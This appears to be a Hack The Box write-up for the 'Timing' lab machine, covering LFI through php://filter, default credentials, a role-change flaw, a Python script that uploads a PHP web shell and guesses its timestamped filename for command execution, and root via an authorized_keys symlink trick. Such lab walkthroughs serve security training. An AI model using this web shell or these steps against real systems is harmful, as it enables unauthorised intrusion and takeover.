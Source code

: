 ```yaml
---
layout: single
title: Timing [boot2root] - Hack The Box
excerpt: "Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite."
date: 2022-1-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-timing/timing-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - boot2root
tags:  
  - Local File Inclusion(LFI)
  - Custom Exploitation
  - Enumeration Parameters
  - SSH-Keygen
  - Syblolic Links
---
```


<h1 align="center">
<img src="/assets/images/htb-writeup-timing/timing-banner.png">
</h1>

Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite.

## Network Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
```


## Directory Enumeartion

```
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/login.php            (Status: 200) [Size: 5609]                               
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
/footer.php           (Status: 200) [Size: 3937]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]  
```

## Fuzz parameters image.php

Fuzzing image.php and find an img parameter which from that we will read other .php files and more. <br><br>
<img src="/assets/images/htb-writeup-timing/fuzzing_parameters.png">


## Identify the user from /etc/passwd using php://filter

Identify the LFI vulnerability but with php://filter because the server not allows us to pass special characters like <b>/../../../</b> Read the /etc/passwd and identify the aaron user.

<img src="/assets/images/htb-writeup-timing/lfi_phpfilter.PNG">

<img src="/assets/images/htb-writeup-timing/aaron_user.PNG">

## Login with aaron for the both box values at login page

Login with aaron user (aaron:aaron)<br><br>
<img src="/assets/images/htb-writeup-timing/login_default_creds.PNG">


## Change user role to admin

When we read the profile_update.php we will see this piece of code which allows us to pass the role=1 parameter and change from user2 to admin. <br><br>
<img src="/assets/images/htb-writeup-timing/rolechange.PNG">

<img src="/assets/images/htb-writeup-timing/change_to_admin.PNG">

<img src="/assets/images/htb-writeup-timing/show_adminpanel.PNG">

## Exploit 

At the exploit part to get the RCE. I create this exploit in python combined with php code which i read it from upload.php with LFI from web server. The upload.php creates a hash and append it in the front of the filename($hash_image.jpg). For the exploit we must to upload and generate at the same to find out the name of the file .

```php
<?php
$upload_dir = "images/uploads/";
$file = "exploit.jpg";

$file_name = md5('$file_hash'. time()) . '_' . $file;
$target_file = $upload_dir . $file_name;
echo $file_name;
echo PHP_EOL;
?>
```

```python
#!/usr/bin/python3
import requests
import os
import time
import threading


#Current URL=http://timing.htb
def upload_post_req():
	burp0_url = "http://timing.htb:80/upload.php"
	burp0_cookies = {"PHPSESSID": "lo4d1l8c8df2b7lgr7vrutethl"} #Change this cookie to our admin cookie
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------358100878512268049331587005052", "Origin": "http://timing.htb", "Connection": "close", "Referer": "http://timing.htb/avatar_uploader.php"}
	burp0_data = "-----------------------------358100878512268049331587005052\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"exploit.jpg\"\r\nContent-Type: txt/php\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------358100878512268049331587005052--\r\n"
	r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
	
def fname_generator():
	print("Running...")
	for i in range(15):
		os.system("php -f fname_generator.php >> output.txt")
		if(i==6):
			threading.Thread(target=upload_post_req).start()
		time.sleep(1)


def response_c(filename):
	VECTOR="http://timing.htb/images/uploads/"
	r=requests.get(VECTOR+str(filename))
	return r.status_code

def injector(filename, cmd):
	VECTOR="http://timing.htb/image.php?img=images/uploads/"
	r=requests.get(VECTOR+filename+"&cmd="+cmd)
	print(r.text)

if __name__ == "__main__":	

	fname_generator()
	
	hash_names=[]
	f = open("output.txt", "r")
	for i in range(15):
		hash_names.append(f.readline().strip("\n"))
	f.close()
	
	for filename in hash_names:
		if str(response_c(filename))=="200":
			os.system("clear")
			print("Success!")
			while(1):
				cmd=input("> ")
				injector(filename, cmd)
				if cmd=="exit":
					break
	
	os.system("rm output.txt")
```

<img src="/assets/images/htb-writeup-timing/run_exploit.png">

<img src="/assets/images/htb-writeup-timing/run_exploit_success.png">


## Download zip backup from /opt folder

Enumerate and download the backup file from opt directory. <br>
<img src="/assets/images/htb-writeup-timing/download_and_unzip.PNG">

## Find git changes and discover aaron ssh password

Find the git changes and login with aaron user to ssh. <Br>
<img src="/assets/images/htb-writeup-timing/git_log_ssh_creds.PNG">

<img src="/assets/images/htb-writeup-timing/login_ssh.PNG">



## Root

At the root part we have perms to run the /usb/bin/netutils with allows us to download a file from http and ftp server. to find out the name of the file <br>
<img src="/assets/images/htb-writeup-timing/sudo_l.PNG">

Example of netutils <br>
<img src="/assets/images/htb-writeup-timing/run_netutils.PNG">

1. Create a symbolic link to /root/.ssh/authorized_keys <br>
2. Create a private and public key in attacking machine. <br>
3. Rename the public key <br>
4. Download the file from timing machine <br>
5. Login from attacking machine with private key to root user.
	<br>
	
	
<img src="/assets/images/htb-writeup-timing/priv_esc.PNG">
